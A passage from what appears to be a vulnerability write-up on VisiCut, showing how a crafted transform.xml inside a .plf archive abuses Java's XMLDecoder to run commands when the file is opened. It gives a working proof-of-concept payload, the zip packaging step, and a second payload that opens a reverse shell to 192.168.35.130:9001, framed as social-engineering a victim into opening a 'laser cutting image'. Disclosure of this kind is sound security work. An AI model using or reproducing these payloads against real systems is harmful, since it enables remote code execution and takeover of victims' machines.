 ```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_181" class="java.beans.XMLDecoder">
  <object class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="3">
      <void index="0">
        <string>sh</string>
      </void>
      <void index="1">
        <string>-c</string>
      </void>
      <void index="2">
        <string>echo hello > /tmp/poc_test.txt</string>
      </void>
    </array>
    <void method="start"/>
  </object>
</java>
```

Now, we package this XML file inside a `.plf` archive:

```bash
zip payload.plf transform.xml
```

Next, we open **VisiCut**, load the `.plf` file, and confirm that `/tmp/poc_test.txt` is created.

<img src="{{ site.url }}{{ site.baseurl }}/images/CVE-2025-03-06-VisiCut-Opened.JPG" alt="">


<img src="{{ site.url }}{{ site.baseurl }}/images/CVE-2025-03-06-POC-Test.JPG" alt="">

## **Attack Path: Reverse Shell Execution**
For a real attack scenario, we modify `transform.xml` to execute a reverse shell.

In this scenario, let's say I have been able to social engineer a user of VisiCut to open up a cool new laser cutting image that I created! But what I have provided is a malicious.plf that will spawn a reverse shell to my system.

The contents of transform.xml will be. 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_181" class="java.beans.XMLDecoder">
  <object class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="3">
      <void index="0">
        <string>sh</string>
      </void>
      <void index="1">
        <string>-c</string>
      </void>
      <void index="2">
        <string>sh -i >& /dev/tcp/192.168.35.130/9001 0>&1</string>
      </void>
    </array>
    <void method="start"/>
  </object>
</java>

```
